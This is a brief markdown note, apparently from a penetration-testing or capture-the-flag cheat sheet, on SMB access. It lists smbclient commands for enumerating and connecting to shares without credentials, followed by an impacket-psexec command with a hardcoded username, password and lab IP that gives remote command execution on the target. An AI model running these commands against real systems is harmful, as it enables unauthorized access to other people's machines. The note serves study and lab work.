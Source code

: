 - List SMB shares with `smbclient -L IP_HOST`
- Connect to a Disk by using `smbclient \\\\IP_HOST\\DISK`
	- This will connect you without credentials
- Once there connect to the target machine using **Psexec**

```shell
impacket-psexec 'bob:!P@$$W0rD!123Bill@10.10.166.94'
```